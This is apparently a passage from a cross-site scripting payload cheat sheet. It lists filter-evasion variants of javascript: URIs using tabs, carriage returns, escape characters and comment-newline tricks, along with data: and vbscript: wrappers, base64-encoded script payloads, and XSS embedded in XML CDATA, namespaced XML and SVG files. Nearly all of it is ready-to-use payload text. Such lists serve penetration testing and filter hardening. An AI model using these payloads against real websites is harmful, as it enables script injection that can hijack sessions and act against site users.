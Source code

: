 ```javascript
java%09script:alert(1)   - Horizontal tab (\t)
java%0dscript:alert(1)   - CR (\r)

Using the escape character
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)

Using the newline and a comment //
javascript://%0Aalert(1)
javascript://anything%0D%0A%0D%0Awindow.alert(1)
```

### Wrapper data

```javascript
data:text/html,<script>alert(0)</script>
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

### Wrapper vbscript

only IE

```javascript
vbscript:msgbox("XSS")
```

## XSS in Files

**NOTE:** The XML CDATA section is used here so that the JavaScript payload will not be treated as XML markup.

```xml
<name>
  <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
</name>
```

### XSS in XML

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```

### XSS in SVG

Simple script. Codename: green triangle

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(document.domain);
  </script>
</svg>
```
